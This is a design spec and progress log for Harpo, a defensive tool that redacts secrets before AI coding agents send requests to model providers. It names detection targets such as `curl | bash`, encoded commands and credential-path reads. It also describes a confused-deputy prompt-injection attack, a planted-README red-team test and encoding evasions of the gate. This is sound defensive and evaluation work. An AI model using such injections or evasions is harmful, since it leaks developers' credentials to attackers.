Harpocrates the product stays small: two trust boundaries around an AI coding session. Your detection engineering work lives in a separate lab repo that consumes Harpocrates events. The product stays usable, and the portfolio still tells one story.



| Piece | Where it lives | Built from | Job |
| --- | --- | --- | --- |
| `harpo guard` | Product, v1 | Harpocrates | Stop secrets leaving for the model |
| `harpo scan` | Product, v1 | Harpocrates CLI | Commit-time and CI scanning |
| `harpo inspect` | Product, v1.2 | New | Show what an untrusted repo will execute, without running it |
| URL scoring in preflight | Product, v1.2 | Phishing-Link-Detection | Score download and fetch URLs found in scripts and agent instruction files |
| ThreatChain investigation | Lab repo | ThreatChain | Correlate Harpocrates and host events into incidents, map to ATT&CK and ATLAS, explain with cited events |
| Behavior rules and network sensor | Lab repo | CIC-IDS2017-EDA, new rules | Detect exfiltration through other channels; distribution-shift study on your own lab traffic |

**Why the split:** the detection engineering pieces are valuable for your resume but would violate the anti-bloat rule inside the product. As a lab that consumes the product's events, they show you can both build a security control and detect what gets past it.

**Not included:** basketball-advisor and the portfolio site (engineering evidence only), the ServiceNow tool (work code; discuss with metrics), and REFLEX (separate research; can use the lab as its test range).

## Repo preflight (v1.2)

`harpo inspect` reads an untrusted repository without executing anything and shows which commands and files would run, and what they request, before you or your agent run setup. It targets real attacks: fake job-interview repos and malicious setup scripts that steal credentials from developers.

**Not novel on its own.** Agent Quarantine already ships a `preflight` command. Harpocrates' version is worth building only if it adds URL scoring, agent instruction file analysis, trust caching, and a measured benchmark.

**Honest limits of static analysis.** Preflight can reliably find entry points: package scripts, lifecycle hooks, git hooks, Makefiles, agent instruction files, and MCP startup commands. It can flag risky primitives in them, like `curl | bash`, `base64` decoding, or reads of credential paths. It cannot reliably trace what arbitrary JavaScript or Python will do: real attack campaigns hide payloads in minified or obfuscated files. So it reports "these entry points will run, and these contain risky primitives," never "this repo is safe." A clean preflight result is not a safety guarantee.

**Requirements**

| ID | Requirement | Acceptance test |
| --- | --- | --- |
| FR-PF-01 | Never execute repository code during inspection | Fixture repos with payloads that would write a marker file; the marker never appears |
| FR-PF-02 | Enumerate entry points: `package.json` scripts and lifecycle hooks, `setup.py` and build hooks, `Cargo` build scripts, Makefile and justfile targets, git hooks and `core.hooksPath`, VS Code tasks, devcontainer and Docker entrypoints, MCP server configs | Each entry point type covered by a fixture |
| FR-PF-03 | Scan agent instruction files (`AGENTS.md`, `CLAUDE.md`, `.cursorrules`, `.github/copilot-instructions.md`, skill files) for execution requests and credential path references | Fixture instructions flagged with file and line |
| FR-PF-04 | Flag risky primitives in entry points: download-and-execute, encoded commands, credential path reads, persistence commands | Per-primitive fixtures |
| FR-PF-05 | Score URLs found in entry points and instruction files with the URL model | URL fixtures scored; latency under 5 ms per URL |
| FR-PF-06 | Explain each finding as an execution chain in plain words, with file and line; no numeric risk score | Output review against the design principles |
| FR-PF-07 | Cache trust by hashing entry point files and instruction files; re-prompt only when one changes | Changing a script invalidates trust; unchanged repo stays quiet |
| FR-PF-08 | Optionally call OSV for dependency advisories; no Harpocrates package reputation database | OSV lookup works offline-tolerant (skips cleanly when offline) |
| FR-PF-09 | Finish in under 2 seconds on a small to medium repo; skip `node_modules`, `.git`, build output, and binaries by default | Timed on 20 benchmark repos |

**Untrusted Repo Benchmark:** inert fixture repos (no live malware, no working payloads, fake canary secrets only) modeled on fake-interview and malicious-setup attacks, plus benign lookalikes. Measure detection rate, false-warning rate on popular benign repos, inspection time, and the share of benign repos needing any user action.

## Key design decisions

| Decision | Choice | Alternative rejected | Why |
| --- | --- | --- | --- |
| Placeholder format | `<<HARPO:aws_access_key:7f3a>>`, typed with a short keyed hash | Generic `[REDACTED]` | The model still knows what kind of value was there, so it can reason about the code. The same secret gets the same placeholder within a session, so references stay consistent. |
| Hashing | HMAC with a random per-session key held in memory | Plain SHA-256 | Plain hashes of short secrets can be brute-forced. A keyed hash that disappears with the session can't be reversed later from logs. |
| Package name (FR-NAME-03, decided Oct 18, 2026) | PyPI distribution `harpo-scan`; the import package stays `Harpocrates`; `harpocrates` on PyPI becomes a shim that depends on `harpo-scan` | Distribution `harpo`; renaming the import package | `harpo` on PyPI is Behavox's GPG-based secret-storing library (1.4.2), in the same field, so the names would be confused. Keeping the import name avoids touching 64 files and any import collision, and users never type it. |
| Restoring real values in responses or file writes | Off by default | Swap placeholders back to real values, as RedactProxy and claude-code-redact do | Restoring lets a prompt-injected model point a placeholder at an attacker's server and have Guard fill in the real secret, a confused-deputy attack. v1 warns when the agent writes a placeholder into a file instead. Revisit later only with an allowlist of safe destinations. |
| Failure mode | Fail closed, with a clear error the agent and user can see | Fail open | Security tools that fail open get bypassed by the first crash. There is no override in v1 (FR-GATE-03, Josh, Oct 20, 2026): a switch that forwards unscanned is the fail-open state the gate exists to prevent. The Sep 25 draft offered a logged emergency override; that is withdrawn. |
| Detection threshold | Favor recall at the egress gate; favor precision at the commit gate | One threshold everywhere | Over-redacting a model request costs a little utility. A false positive at commit time interrupts a developer and erodes trust in the tool. |
| Deliberate access | User-approved allowlist by path or secret hash, logged | Silent bypass | Some tasks truly need the value, like debugging auth. The approval is visible and auditable. |
| Response direction | Pass model responses through; only flag placeholders echoed into tool calls | Scan responses too | Responses come from the provider, which already saw the request. The leak happens on the way out. |
| Scope of scanning | All text in the request, including system prompt, history, and tool results | Only the newest message | Conversation history is re-sent on every turn. Scanning only the newest message misses secrets from earlier turns that slipped through before a rule update. |

## Evaluation plan

The headline result is a leakage rate measured at a mock LLM server, not a classifier score. A secret either reached the provider or it didn't.

**Test harness:** point the agent at a local mock API server that records every request it receives. Plant canary secrets (realistic but fake keys in real formats) across a test repo, then run scripted and live agent sessions. Count how many canaries appear in recorded requests, with Guard off versus on, and with RedactProxy and claude-code-redact on the same inputs wherever they support the agent.

| Suite | What it measures | Metrics | v1 target |
| --- | --- | --- | --- |
| Detector benchmark | Core accuracy on labeled code | Precision, recall, F1 per secret type; false positives per 1,000 files; calibration curve | Recall 0.95 or higher; publish all numbers |
| Hard negatives | False alarms on things that look secret | FP rate on UUIDs, hashes, minified JS, lockfiles, test fixtures, doc examples | Fewer than 2 per 1,000 files |
| Leakage via read paths | Complete mediation | Canaries reaching the mock server through read tool, `cat`, `grep`, `git log -p`, `env`, test output, MCP tool results | 0 known-format canaries |
| Evasion | Robustness to encoding | Leak rate for base64, hex, URL-encoded, split-line, reversed, JSON-escaped, and spaced-out secrets | Measure and publish; fix the top 3 gaps |
| Prompt-injection red team | Adversarial agent behavior | Leak rate when a planted README instructs the agent to reveal a key, with Guard off vs on | Published before and after numbers |
| Utility cost | Does the agent still work? | Resolve rate on a 50 to 100 task SWE-bench Verified subset with planted canaries, Guard off vs on | Within 3 points (equivalence test) |
| Performance | Overhead | p50 and p95 added latency per request; throughput on a large repo scan | p95 under 50 ms |
| Fail-closed | Safety under failure | Behavior when the scanner is killed, times out, or gets malformed input | 100% blocked, none forwarded |

**Rigor notes:**

- Split train and test data by repository, not by random sample. Random splits let near-duplicate code leak between sets, which inflates scores.
- Keep the evasion and red-team suites separate from training data, and never tune on them.
- Report failures honestly. A published list of known bypasses is more credible to a security interviewer than a perfect score.

### Utility benchmark method

The claim to prove is that swapping in Guard causes no meaningful drop in agent performance. One benchmark measures that claim and the security benefit at the same time.

1. **Harness:** run Claude Code and Codex, the agents people actually use. Use a minimal harness such as mini-swe-agent only for tightly controlled experiments.
2. **Tasks:** a fixed subset of 50 to 100 SWE-bench Verified tasks, chosen with a recorded random seed. The full set is too expensive.
3. **Canaries:** plant realistic fake secrets in each task repo (`.env`, config files, a test fixture, a log file). Without them the run proves no security benefit.
4. **Paired runs:** same model, same tasks, Guard off and Guard on, 2 to 3 attempts each, since agents are nondeterministic.
5. **Pre-registered margin:** write the equivalence margin (3 percentage points) in the repo before the first run. Test it with two one-sided tests (TOST). "No significant difference" is not the claim; "equivalent within 3 points" is.
6. **Report:**
   - resolve rate with 95% confidence intervals
   - canaries leaked, off vs on
   - p50 and p95 added latency
   - tokens used
   - prompt-cache hit rate
   - every task where outcomes differ, with a short explanation

**Cost control:** run the full benchmark only at M3 and at releases. Use a 10-task smoke subset in development.

## Detector training data

**Dropped (Josh, Oct 28, 2026):** no further ML work; the project's effort moves to other projects. The bundled model (v17) stays as shipped and keeps running in Python as the last step of every scan. The rebuilt training set and the v1.1 retrained detector below are not built.

Rebuild the training set so the model learns what separates real credentials from secret-like strings in real code, not what Gemma thinks a secret looks like. The current model ships in v1 and becomes the baseline; the rebuilt model ships as v1.1.

**Current data:** labeled data from open research sets and scanner fixtures (TruffleHog and other detectors), plus about 40K samples generated by Gemma 4 4B.

**Detection architecture change:** known provider formats (AWS, GitHub, Stripe, Slack, private key headers) are caught by deterministic rules. The ML model only decides ambiguous candidates, like `password = "PurpleDog197!"` versus `checksum = "M9xKk02pf..."`. Report metrics for the full pipeline and for the ML stage separately.

**Four datasets, never mixed**

| Dataset | Purpose | Source |
| --- | --- | --- |
| Training | Teach the classifier | Deterministic fake secrets injected into real open-source code, real negatives, hard negatives, existing research sets, Gemma samples as augmentation |
| Validation | Thresholds and calibration | Separate repositories |
| External test | Real-world generalization | An independent, manually labeled benchmark such as [SecretBench](https://github.com/setu1421/SecretBench), used once per release |
| Adversarial test | Robustness to evasion | Harpocrates mutation suite |

**Data requirements**

| ID | Requirement | Acceptance test |
| --- | --- | --- |
| DATA-01 | Audit the existing research sets: list each one, its license, and whether any overlaps the external test set. Anything that overlaps is removed from training, or a different external test set is chosen. | `docs/data.md` lists every source with license and overlap check |
| DATA-02 | Deterministic generators per provider with documented prefix, length, and character set; every sample records generator version and seed. All values fake and non-live. | Generator unit tests; format validated against provider docs |
| DATA-03 | Generic passwords come from human-like patterns (words, digits, symbols), not uniform random strings, because people choose them | Password generator produces patterned output; tested separately |
| DATA-04 | Inject secrets into real, permissively licensed open-source files across many file types and insertion styles, including neutral variable names, so the model can't shortcut on names like `SECRET_KEY` | Per-insertion-style metrics; a neutral-name slice is reported |
| DATA-05 | Mine hard negatives from Gitleaks, TruffleHog, and Harpocrates false positives. Label by known structures (hashes, integrity values, UUIDs) plus manual review of a random sample of at least 500 to estimate label noise. | Label-noise estimate published |
| DATA-06 | Every sample records source, generator, repo ID, file type, and language | Schema test on the dataset |
| DATA-07 | Deduplicate exact and near-duplicate samples; split by repository before generating derived samples | Zero repositories shared between splits |
| DATA-08 | Gemma samples tagged `llm_synthetic`, deduplicated, and capped at 10 to 20% of positives unless the ablation shows they help | Provenance field present; share reported |
| DATA-09 | Never train, tune thresholds, or pick features on the external or adversarial test sets. After freezing a release, results on them are kept even if a later version improves. | Frozen model hash recorded with each result |
| DATA-10 | Publish generation scripts and a repository list rather than raw third-party code, and never commit data containing real secrets | Repo review; external benchmark files excluded by `.gitignore` |

**Experiments worth publishing**

1. **Ablation:** Model A (current data), Model B (rebuilt data without Gemma), Model C (rebuilt data with Gemma), all on the same external test set. This measures how well LLM-generated secrets transfer to real code.
2. **Held-out family:** train without one provider (for example Stripe) and test on it, to see whether the model learned general credential features or memorized formats.

**Adversarial suite:** generate evasions by composing transformations (base64, hex, URL and Unicode escaping, splitting across lines, fields, content blocks, or turns, reversing, nesting). Define which transformations are in scope. Arbitrary encryption is undetectable by design, so it goes on the known-bypass list rather than the target list.

**Timeline:** the M3 external evaluation of the current model gives Model A's result. The data rebuild runs in parallel and ships as v1.1 in January 2027. Guard v1 does not wait on it.

## Security principles this project teaches

Each principle below comes from Saltzer and Schroeder's classic design principles or standard security practice. Each maps to a concrete part of Guard you'll build and be able to explain in an interview.

| Principle | Where it shows up in Guard | Interview talking point |
| --- | --- | --- |
| Complete mediation | Egress gate sees every request, not just the read tool | Why guarding one tool isn't enough when the agent has a shell |
| Fail-safe defaults | Fail closed on scanner error; deny built-in reads of sensitive paths | Why fail-open security controls get bypassed |
| Least privilege | Read-only MCP tools; proxy bound to localhost with a session token | How you narrowed what each component can do |
| Defense in depth | Read tool, egress gate, commit gate | What each layer catches that the others miss |
| Economy of mechanism | Small proxy with one job; shared detection core | Why a smaller trusted component is easier to audit |
| Open design | Public benchmark, evasion suite, and known-bypass list | Security that survives the attacker knowing how it works |
| Psychological acceptability | Low false positives, typed placeholders, under 50 ms overhead | Why a tool developers disable protects no one |
| Threat modeling | STRIDE on Guard itself; explicit out-of-scope channels | How you decided what not to defend against |
| Adversarial evaluation | Evasion and prompt-injection suites | Measuring your own weaknesses before an attacker does |
| Secure logging | Keyed hashes only, never values | How security tools become the leak |

## Company signal

All four target companies now sell products that control what data flows into AI tools. Guard is a small, open, measurable version of that problem.

| Company | Related product direction | What Guard signals |
| --- | --- | --- |
| CrowdStrike | [AI Detection and Response and AgentWorks guardrails](https://www.crowdstrike.com/en-us/press-releases/crowdstrike-launches-charlotte-ai-agentworks-ecosystem-for-building-secure-agents/); [Falcon Data Security for AI interactions](https://futurumgroup.com/insights/crowdstrike-deepens-agentic-soc-strategy-across-partners-services-and-devices/) | Endpoint-side data protection, agent security, Rust systems work, measured detection |
| Fortinet | [FortiAI application visibility and control for AI apps](https://www.fortinet.com/corporate/about-us/newsroom/press-releases/2026/fortinet-advances-its-security-operations-platform-with-unified-soc-agentic-ai-and-expanded-endpoint-security) | Controlling AI app traffic at an egress point, which is how Fortinet thinks about security |
| Palo Alto Networks | AI security and AppSec lines (approximate, from memory; verify current product names) | Secure SDLC, DLP for AI, SARIF and CI integration |
| Cisco | AI security and Splunk (approximate, from memory; verify current product names) | Proxy and network-layer thinking, audit telemetry that a SIEM can ingest |

The lab repo then adds the endpoint detection and SOC investigation signal that CrowdStrike and Cisco weigh most.

## Milestones and roadmap

v1 ships in about 8 weeks. Apply to internships from week 2 onward; don't wait for v1.

| Milestone | Dates | Deliverables | Exit criteria |
| --- | --- | --- | --- |
| M0: Repo matches resume | Sep 26 to Oct 5 | Merge Rust core, ONNX, and MCP into main; CI running tests; README with install steps and current benchmark | A stranger can `pip install` it and reproduce your precision and recall numbers |
| M1: Read tool | Oct 6 to Oct 19 | `safe_read` and `safe_grep`; typed placeholders; Claude Code and Codex setup docs with deny rules; secret-type labels in core | Agent can read a repo with planted canaries and none appear in its context |
| M2: Egress gate | Oct 20 to Nov 9 | Localhost proxy; full-request scanning; fail closed; audit log; mock server and canary harness; Claude Code and Codex install adapters with harpo doctor | 0 known-format canaries reach the mock server across all read paths |
| M3: Evaluate and publish | Nov 10 to Nov 23 | Evasion and prompt-injection suites; utility, latency, and competitor comparison study; SARIF and GitHub Action; write-up and 2-minute demo video | All targets in the Evaluation plan measured and published, including failures |
| R0: Cleanup, docs and rename | Oct 18 to Oct 19 (inserted before M2) | Cleanup review and untracks; docstrings enforced in CI; rename to Harpo (`harpo`, `harpo-mcp`, `~/.harpo`, pre-commit `harpo`, MCP server `harpo`); first two README demos; security fixes FR-CORE-07, SEC-01, SEC-07 to SEC-09 | Findings byte-identical to before the cleanup; full suite and coverage floor green |
| M4: Serving and reliability | Dates set aside (Josh, Oct 18) | Stage profile; detector daemon and thin hook client; fallback that never allows; checkpointed history scans; atomic state files | NFR-03 to NFR-06 met and published |
| M5: Learns false alarms, not secrets | Dropped (Josh, Oct 28) | Out-of-band questions and `harpo review`; fingerprint allowlist; local context-only suppressor | FR-LEARN-06 and FR-LEARN-07 published; labeling study done |
| M6: Model lifecycle | Dropped (Josh, Oct 28) | Feedback export; one-command retrain; CI evaluation gate; shadow runs; versioned manifests and rollback | A deliberately worse model is rejected; feedback retrain target met |
| M7: Org scanning service | Dates set aside | Replay generator; 3-broker Redpanda; scanner consumer group; dead-letter topic | 0 missed and 0 duplicated under worker kill and broker stop; NFR-07 load report |
| M8: Detections, cloud and publication (deferred) | Deferred (Josh, Oct 18) | ATT&CK map; Sigma rules; Terraform deployment; cost runs; README benchmark section | Every rule fires on its recording and is silent on benign logs; cost report |

### Progress (Oct 21, 2026)

R0, M1 and the M2 work are merged to `main` (PR #41, Oct 28, 2026) and not released; the last release is v1.3.0. No further features are planned (Josh, Oct 28); the README's "If I kept going" names the next steps. This checkout collects 3,552 tests (3,539 unit, 13 integration) and 23 Rust tests (Oct 28). The 3,544 counted earlier on Josh's machine include the tests of the training code, which is kept locally and untracked (seven gitignored test files).

**CI.** `ci.yml` runs on pushes to `main`, `feature/**` and `feat/**`, and on pull requests, so it first ran on this branch with draft pull request #41, on Oct 21. That run passed Rust, the plugin tests and the demos; the unit jobs failed one test, whose help-text check broke when typer draws a colored panel under `GITHUB_ACTIONS` (fixed the same day). The rest below marked Oct 21 was run by hand (Verification run, below).

| Milestone | Status | Done | Left |
| --- | --- | --- | --- |
| M0 | Done | Rust core, ONNX and MCP merged to `main` (PR #29); reproducible detector metrics | |
| R0 | Done, proposals open | Cleanup review and untracks (shipped code down 30%, findings byte-identical; FR-CLEAN-01 to -04); docstring format enforced (DOC-DOCSTRING-01); rename to Harpo (FR-NAME-01 to -06); two README demos (DOC-DEMO-01, -02); FR-CORE-07, SEC-07 to SEC-09, and SEC-01 for `harpo scan` output. Oct 21: agent instructions and internal spec notes removed from the repo; the R0 IDs and the gate decisions they held are restated in this doc | FR-NAME-07 (rename the GitHub repo) waits for the release. TEST-02 to TEST-04 are still proposals. TEST-01's CI check has not run on this branch |
| M1 | Done, two checks open | FR-READ-01 to FR-READ-03, FR-READ-05, FR-READ-06, SEC-02, SEC-06, FR-CORE-02, FR-CORE-03, FR-INSTALL-03. Live run on Claude Code with 0 of 15 canaries in the agent's context (Oct 19). Oct 21: scripted reads through the installed hook, Claude Code 2.1.306 and Codex 0.163.0 against the mock provider, 0 of 22 known-format canaries received | Fresh-machine setup by someone else (FR-READ-03's acceptance); the one-time Codex `/hooks` trust and a live Codex run |
| M2 | In progress | Built and tested: localhost proxy with per-session token (FR-GATE-01, SEC-03); per-format parsing (FR-GATE-02); fail closed (FR-GATE-03); full-history scan and deterministic placeholders (FR-GATE-04, FR-GATE-05); streaming, ChatGPT-login upstream and connection reuse (FR-GATE-06); media policy (FR-GATE-07); transport notes (FR-GATE-09); thinking blocks (FR-GATE-10); base64 inside text (FR-GATE-11); gzip and zstd request bodies, with unknown encodings blocked (FR-INSTALL-04); authentication headers forwarded untouched and never logged (FR-INSTALL-05); bypass check in the hook (SEC-10); mock provider and canary harness; FR-READ-04 as reworded (the deny that shipped with FR-READ-06). G7, Oct 21: `harpo guard up` and `harpo guard down` start the gate in the background with a new token, route Claude Code and Codex through their own settings files, and restore those files byte-identical (FR-INSTALL-01's gate routing, FR-INSTALL-06, FR-INSTALL-08, FR-UX-01); `harpo doctor` checks the setup locally (FR-INSTALL-02); `harpo install` keeps the gate entry; the SEC-10 check applies to Claude Code only when guard up routed it. G6, Oct 21: the findings log (FR-LOG-01) from the gate, the read tool and the hook; the hash-chained proof log of every forwarded request, fail closed when it cannot be written (FR-PROOF-01, FR-PROOF-02); `harpo proof` (FR-PROOF-03); and the SEC-01 sweep of every Harpo file and temp file after the agent runs. FR-CORE-05, Oct 21: every file is scanned whole in bounded pieces on both engines, and the read tool and the hook check files over 10 MB in chunks; before it, a single-file scan read only the first 10 MB of a larger file without saying so. End-to-end runs with the real Claude Code and Codex CLIs against the mock provider leak 0 known-format canaries (Oct 20, and again Oct 21). Measured on an Apple M3 Pro (Oct 20 to 21): follow-up turns add 12.2 ms p95 (n = 275); first turns, with a cold cache, add 347 ms p95 (n = 16, two of them 0.7 to 1 MB); over TLS the gate adds a median 0.19 ms per request with connection reuse and 1.14 ms without; the FR-GATE-11 rule would block 3 of 1,038 recorded requests, all three holding planted canaries, so 0 false blocks | Live check against chatgpt.com with a real login. The acceptance checks listed below |
| M3, M4, M7 | Not started | | |
| M5, M6 | Dropped (Josh, Oct 28, 2026): no further ML work | | |
| M8 | Deferred | | |

**Gate work items.** Code comments and commits cite these.

| Item | Scope | Status |
| --- | --- | --- |
| G1 | Request parser spec and transport notes (FR-GATE-02, FR-GATE-09) | Done; the spec is kept locally, its decisions are under Requirements |
| G2 | Mock provider, canary harness and capture probes (FR-PROOF-04) | Done |
| G3 | Localhost proxy, token, fail closed, SEC-10 (FR-GATE-01, SEC-03, FR-GATE-03) | Done |
| G4 | Scan and redact the request (FR-GATE-03 to FR-GATE-05, FR-GATE-10) | Done |
| G5 | Media policy, ChatGPT-login upstream, connection reuse (FR-GATE-07, FR-GATE-06, NFR-01); FR-GATE-11 followed on Oct 20 | Done |
| G6 | Findings log and proof log, `harpo proof`, SEC-01 sweep (FR-LOG-01, FR-PROOF-01 to -03, SEC-01) | Done, Oct 21 (`cli/Harpocrates/audit.py`); one decision proposed for Josh (above, under M3) |
| G7 | `harpo guard up` and `down`, `harpo doctor`, gate routing in the installer (FR-INSTALL-01, -02, -06, -08) | Done, Oct 21 (`cli/Harpocrates/guard.py`) |

#### Verification run, Oct 21, 2026

A Linux x86-64 cloud container with 4 cores. Python 3.13.16, Rust 1.97.0, Claude Code 2.1.306, codex-cli 0.163.0. Neither agent was logged in: every run used fake keys, throwaway homes, generated canaries and the local mock provider, and no request reached a real provider. Branch `r0/cleanup` at `a564cb1`, plus the fixes listed after the table. Reports went to a folder outside the repo (counts only) and are not committed.

| Check | Requirement IDs | Command | Result |
| --- | --- | --- | --- |
| Lint and docstrings | DOC-DOCSTRING-01 | `ruff check .`; `python scripts/check_docstrings.py --enforce` | Pass |
| Rust | FR-CORE-01 | `cargo fmt --check`, `cargo clippy -- -D warnings`, `cargo test`, release build | Pass; 21 tests |
| Unit tests, CI's declared install | TEST-01 | Fresh venv, `pip install -e ".[dev,explain,mcp]"`, `pytest -q -m "not integration" --cov` | Before the fixes, collection stopped: `zstandard`, then `yaml`, were not declared, and 0 tests ran. With them declared: 3,412 passed, 2 failed (test bugs, fixed below), 6 skipped; coverage 94.15% (floor 90%) |
| Unit tests on the Rust scanner | FR-CORE-01, TEST-01 | Same, with `HARPOCRATES_REQUIRE_RUST=1` | Before the test fixes: 3,413 passed, 1 failed. After all fixes: 3,414 passed, 0 failed, 6 skipped; coverage 94.15% |
| Skips | | | 6, all environmental: 5 because root ignores file modes, 1 needs a case-insensitive file system |
| Integration | SEC-07, FR-GATE-04, FR-PROOF-04, FR-NAME-05, TEST-03 | `pytest -m integration` | First run: 4 passed, 1 failed (a test assumption, fixed below). After the fix: 5 passed, 0 failed, 2 skipped because the `pre-commit` tool was not installed. With pre-commit 4.7.0 (now in the dev extra) and TEST-03 added, Oct 21: 11 passed, 0 skipped; both hook ids blocked the staged canary in the fixture repo |
| TEST-03 on the installed wheel | TEST-03, FR-READ-01, FR-READ-06, FR-LOG-01, FR-INSTALL-08 | `pytest -m integration cli/tests/test_test_03_installed_wheel.py` | 3 of 3. A wheel built from the checkout, in a fresh venv, in a throwaway home: (a) the installed hook denied a Read of a canary file and pointed at `safe_read`, which returned placeholders through the installed MCP server over stdio, and the findings log has both; (b) a commit staging a canary failed and named the file, not the value, and a clean commit then went through; (c) after install, an allowed hook call and uninstall, every file in the home was byte-identical apart from the four `*.harpo.bak` originals, and the two seeded ones hold the seeded bytes. Seen in passing: uninstall also keeps a `.harpo.bak` of the `CLAUDE.md` and `AGENTS.md` notes that install created, holding only Harpo's own block (harmless, not yet changed) |
| Plugin | | `claude plugin test plugins/harpocrates-prompt` | 100 of 100 pass, on Claude Code 2.1.306 (CI pins 2.1.302) |
| Counter | FR-PROOF-04 | `python bench/canary_harness.py --mode direct --target mock` | 80 of 80 planted canaries received (57 known-format, 23 ML-only): the counter works |
| Parser corpus through the gate | FR-GATE-02, FR-PROOF-04 | `--mode direct --target gate`, seeds 0 and 1 | 0 of 57 known-format received. 2 MCP connector credentials passed by design (gate decision 6). ML-only received: 13 and 12 of 23 |
| Read hook with real agents | FR-READ-01, FR-READ-03, FR-READ-06, FR-PROOF-04 | `--mode agent --agent all`, and `--control` | Each agent made its 3 tool calls; 0 of 22 known-format received. Control, nothing installed: 10 of 22 |
| Gate, fail closed and SEC-10 | FR-GATE-03, SEC-10, FR-GATE-01 | `python -m bench.gate_e2e --suite g3` | 4 of 4: both scanner-error sessions were blocked and shown the block (0 requests reached the mock); with a mismatched install record all 3 tool results carried the SEC-10 refusal |
| Gate, scripted reads | FR-GATE-01, FR-GATE-04, FR-GATE-05 | `--suite g4` | 6 of 6: gate only, 0 of 15 received with every tool result redacted (9 and 10 placeholders); gate and hook, 0 received; gate off, 5 known-format leaked per agent |
| Gate, media, MCP images, ChatGPT login | FR-GATE-06, FR-GATE-07, FR-GATE-11 | `--suite g5` | 5 of 5 gated sessions: 0 known-format received, also inside base64. One Codex MCP request blocked with HARPO-BLOCK-ENCODED-SECRET (its control leaked 1, and 3 inside base64). Codex with a fake ChatGPT login: 0 received (control: 5). Neither agent sends a non-image file as base64 media, so the media-secret block ran only in unit tests |
| FR-GATE-11 false blocks | FR-GATE-11 | `python -m bench.gate_encoded_fp` over this run's recordings | 0 of 558 recorded requests; the 1 hit is a planted canary in a gate-off control |
| G7, guard up and down with real agents | FR-INSTALL-01, FR-INSTALL-02, FR-INSTALL-06, FR-INSTALL-08, FR-UX-01 | `python -m bench.guard_e2e` | Routed only by `harpo guard up` (the agents' environment names no base URL or token), Claude Code and Codex each made 3 tool calls and 0 of 11 known-format canaries reached the mock; `harpo doctor` passed. After `harpo guard down` both files were byte-identical, and the same reads with nothing routed leaked 5 of 11 |
| G6 and SEC-01 in the same suite | FR-LOG-01, FR-PROOF-01, FR-PROOF-02, SEC-01 | `python -m bench.guard_e2e`, seeds 6 and 7 | All 4 scenarios pass in both runs. Each routed session: 4 proof entries for the 4 requests the mock received, the same SHA-256 values, and the chain verifies; the gate logged 7 or 8 `secret_redacted` lines and 1 `request_blocked` (the doctor's probe). After `guard down`: 0 entries. The sweep read every file under the throwaway `~/.harpo` (up to 11: the logs, the token, the install record, the snapshots) and TMPDIR: 0 canary values. Unit and gate tests: 50 new (`test_fr_log_01_*`, `test_fr_proof_01_*` to `03`) |
| Transport probes | FR-GATE-09, FR-GATE-02 | `python bench/g2_probes.py` | 6 of 11 probes unchanged since Oct 19. Claude Code 2.1.306 sends a blocked request 4 times (2.1.303: twice); every retry is blocked. Codex unchanged. Noted in `docs/gate-transport.md` (T3) |

**Fixed in this run** (focused, each with the evidence above):

- `cli/Harpocrates/gate/server.py`: on Python 3.13 an HTTP/0.9 request got a plain-dict header set, and the gate blocked it as HARPO-BLOCK-INTERNAL instead of HARPO-BLOCK-TOKEN. It was blocked either way and nothing was forwarded. It now gets an empty header set of the usual type.
- `pyproject.toml`: `zstandard` and `pyyaml` added to the `dev` extra. Without them, CI's install could not collect the suite.
- `cli/tests/cli_entry.py`: typer 0.27's CliRunner is no longer a click subclass, so 72 CLI tests failed in the test helper, not in Harpo.
- `cli/tests/test_fr_name_01_migration.py`: the Codex-config name check now ignores the interpreter path, which contains "Harpocrates" whenever the venv sits inside a clone of the repo.
- `cli/tests/test_fr_gate_01_e2e.py`: the g4 integration test required at least one placeholder even when the read hook had already refused the reads; those placeholders came from generic hits on Claude Code's own request text, which changed in 2.1.306. For hook scenarios it now checks that no tool result needed redacting, which is the property that matters.
- `cli/tests/test_fr_gate_06_upstream.py`: the untrusted-certificate test failed 15 of 33 runs. Its fake TLS server read once and closed with unread bytes, so the kernel reset the connection. It now reads the whole request first.

**Acceptance checks not met yet.** These stay open until they are run as written:

| Requirement | Acceptance test | Status on Oct 21 |
| --- | --- | --- |
| FR-GATE-01 | An agent completes a normal session through the proxy | Only against the mock provider. No real-provider session was run |
| FR-GATE-05 | Cache hit rate with Guard on within 5 points of off | M3; needs the real provider |
| FR-GATE-06 | Streaming works end to end in both agents | Against the mock's server-sent events only |
| FR-GATE-07 | Policy documented and tested | Tested in unit tests; end to end, no agent sent a non-image file as media |
| FR-INSTALL-05 | A Claude Code subscription session works through the gate | Needs a subscription login |
| FR-READ-03 | Fresh-machine setup in under 5 minutes, verified by someone else | Needs another person |
| NFR-01 | Latency benchmark in CI | Measured locally only: follow-up turns 12.2 ms p95 (target 50), first turns 347 ms p95 (target 500); not in CI |
| TEST-01 | The CI unit job fails a change below the floor | CI ran on #41 (coverage 93.47%, the floor reached); no change below the floor has been pushed to show the job failing |

#### Final pass, Oct 21 to 28, 2026

Same container and tool versions as the verification run above. Branch `r0/cleanup` at `3cd5dff` for every run below.

**Redundancy changes.** Each moves or merges code without changing behavior, and each was checked before it was committed:

| Change | Commit | Evidence |
| --- | --- | --- |
| One loop for the CRITICAL and HIGH regex tiers; `harpo scan` split into `_scan_paths` and `_print_findings_table` | `9573191` | Unit suite |
| One placeholder pattern (`audit.PLACEHOLDER`) for the read tool, the hook and the logs | `f236404` | Unit suite |
| One Python fallback for file and directory scans (`scanner._python_findings`) | `7fb87bd` | Scanner tests, unit suite |
| `_scan_line` builds a finding in one place; 206 to 149 lines | `3cd5dff` | Old and new detector on 413 files of this repo: 629 plain and 162 ML-verified findings, 0 files differ |
| Gate modules: `body_read` and `body_encoding` into `gate/body.py`; `jsonspan`, `jsonlocate` and `jsonstring` into `gate/jsontext.py`; `header_scan` into `request_scan.py` (27 gate modules to 23) | `21643c6`, `c0d7093`, `ba276ad` | AST check that every top-level statement moved; gate tests 1,242 passed |
| Test files: one per tested module for FR-CORE-05, FR-LOG-01, the G2 probes and the mock provider (9 files to 4) | `7821639`, `c10be44` | Collected test ids identical before and after each merge |

`724be3d` (a docs commit) carried the body merge's rename without its importers, so that one commit does not import; `21643c6` completes it, and CI is green from there on.

**Verification.**

| Check | Requirement IDs | Result |
| --- | --- | --- |
| Lint, docstrings | DOC-DOCSTRING-01 | Pass |
| Unit tests, Python engine | TEST-01 | 3,530 passed, 6 skipped (5 root file modes, 1 case-insensitive file system); coverage 93.83% |
| Unit tests, Rust engine | FR-CORE-01, TEST-01 | 3,530 passed, 6 skipped; coverage 93.85% |
| Rust | FR-CORE-01 | fmt, clippy `-D warnings`: clean; 23 tests passed |
